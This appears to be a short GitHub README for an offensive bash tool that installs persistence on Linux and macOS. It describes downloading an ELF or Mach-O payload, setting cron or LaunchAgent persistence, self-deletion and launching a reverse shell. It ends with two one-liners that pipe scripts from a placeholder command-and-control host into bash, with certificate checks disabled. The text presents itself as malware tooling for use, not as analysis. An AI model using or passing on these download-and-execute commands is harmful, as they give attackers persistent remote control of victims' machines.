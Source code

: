 # Persistence Bash Script for Linux and OSX

### Linux
Script for Linux downloads an elf payload from external url and set cron persistence on reboot, then remove itself. It checks if script is launched as root or as user.

### OSX
Script for OSX downloads a Mach-O file from external url then making persistence downloading a plist and LaunchAgents from external url, lastly executes macho reverse shell.


### ONE LINER OSX
$ curl -s -k https://C2C_IP/osx_persistence | bash

### ONE LINER LINUX
$ wget -q --no-check-certificate -O - https://C2C_IP/linux_persistence | bash

